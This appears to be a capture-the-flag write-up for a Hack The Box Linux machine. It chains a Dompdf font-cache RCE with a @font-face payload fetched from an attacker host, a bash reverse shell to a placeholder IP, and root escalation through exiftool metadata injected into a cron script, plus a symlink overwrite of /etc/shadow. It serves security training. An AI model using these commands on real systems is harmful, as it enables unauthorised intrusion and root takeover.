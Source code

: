 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Medium](Medium)
- Platform: [HTB

### 💡 Summary
- Initial foothold via **Dompdf** file-write vulnerability (CVE-2022-28368) 📝
- RCE achieved through a poisoned font file + PHP shell 💥
- Privilege escalation through **arithmetic expression injection** in a Bash cleanup script 👑
- Alternative root path using symbolic links to overwrite `/etc/shadow` (patched) 🔒

---

## 🕵️ Recon

### 🔎 Nmap Scan
```bash
nmap -p- --min-rate 10000 10.10.11.200
nmap -p 22,80 -sCV 10.10.11.200
```
**Findings:**
- Open ports: `22` (SSH) and `80` (HTTP)
- Ubuntu 18.04
- Web server: nginx + Next.js (frontend React)

---

## 🌐 Web Enumeration

### Interface.htb
- Only shows "Site under maintenance" 🛠️
- Headers include: `X-Powered-By: Next.js`
- CSP reveals subdomain: `prd.m.rendering-api.interface.htb`

### Subdomain Discovery
```bash
ffuf -u http://10.10.11.200 -H "Host: FUZZ.interface.htb" -w subdomains-top1million-5000.txt --fs 6359
```

Add to `/etc/hosts`:
```
10.10.11.200 interface.htb prd.m.rendering-api.interface.htb
```

### prd.m.rendering-api.interface.htb
- Returns `File not found.` on `/`
- Directory brute force with feroxbuster reveals `/vendor` with `403`

### Deeper Enumeration
```bash
feroxbuster -u http://prd.m.rendering-api.interface.htb/vendor/
```
Reveals:
- `/vendor/dompdf`
- `/vendor/composer`

Suggests this is a **PHP app** using **dompdf** 🧾

---

## 🔍 API Discovery

### Brute Forcing `/api` endpoint
```bash
ffuf -u http://prd.m.rendering-api.interface.htb/FUZZ -w raft-medium-words.txt -mc all -fs 0
```
Finds `/api`, which returns:
```json
{"status":"404","status_text":"route not defined"}
```

Then brute force subroutes with POST:
```bash
ffuf -X POST -u http://prd.m.rendering-api.interface.htb/api/FUZZ -w raft-medium-words.txt -mc all -fs 50
```
Finds: `/api/html2pdf`

### PDF Generator (Dompdf)
- Vulnerable to CVE-2022-28368
- `html` parameter used to render user-supplied HTML to PDF

---

## 🎯 Initial Foothold via RCE

### Exploit Strategy:
1. Use **CSS `@font-face`** to reference a remote `.php` file pretending to be a font file
2. Inject PHP code inside font file comments
3. Trigger dompdf to cache the file on the server
4. Access the cached file directly to trigger the PHP shell

### Key Payloads
```php
@font-face {
  font-family:'exploitfont';
  src:url('http://<attacker-ip>/exploit_font.php');
}
```
```bash
echo -n "http://<attacker-ip>/exploit_font.php" | md5sum
# Use hash to build path:
/vendor/dompdf/dompdf/lib/fonts/exploitfont_normal_<hash>.php
```
Execute commands:
```bash
curl -s --data-urlencode 'cmd=id' http://target/fonts/exploitfont_normal_<hash>.php
```
Reverse shell:
```bash
cmd=bash -c "bash -i >& /dev/tcp/<attacker-ip>/443 0>&1"
```

Shell acquired as: `www-data`

---

## 🧱 Privilege Escalation - Arithmetic Expression Injection

### Enumeration with pspy
Reveals cron job:
```bash
/usr/local/sbin/cleancache.sh (every 2 min)
```
Script content:
```bash
meta_producer=$(exiftool -Producer "$file")
if [[ "$meta_producer" -eq "dompdf" ]]; then
  rm "$file"
fi
```

### Exploiting `-eq` with malicious Producer:
```bash
exiftool -Producer='x[$(touch${IFS}/tmp/rootshell)]' /tmp/testfile
```
Root-created `/tmp/rootshell` appears after 2 mins ✅

### Full Root Shell
```bash
exiftool -Producer='x[$(cp${IFS}/bin/bash${IFS}/tmp/bashroot;chmod${IFS}4777${IFS}/tmp/bashroot)]' /tmp/triggerfile
```
```bash
/tmp/bashroot -p
```

You are now root! 🎉

---

## 🔓 Beyond Root - Symbolic Link Abuse (Patched)

### Original cron:
```bash
cp /root/font_cache/dompdf_font_family_cache.php /var/www/.../fonts/dompdf_font_family_cache.php
chown www-data ...
```
### Exploit:
- Replace `dompdf_font_family_cache.php` with symlink to `/etc/shadow`
- Wait for cron to overwrite and change ownership
- Insert malicious root hash
- `su -` as root using new password 🔑

**Patched version** copies to safe path and chowns first, preventing symlink attacks 🛡️

---

## 📚 Learnings
- dompdf vulnerabilities and font injection are a valid RCE vector
- Bash's `[[ var -eq string ]]` quirks can be weaponized
- Cron jobs are powerful escalation opportunities when scripts are sloppy
- Symbolic links are dangerous when blindly used with root privileges

---

If you liked this write-up, check out more from [0xdf](https://0xdf.gitlab.io)! 🧠🖥️🍩

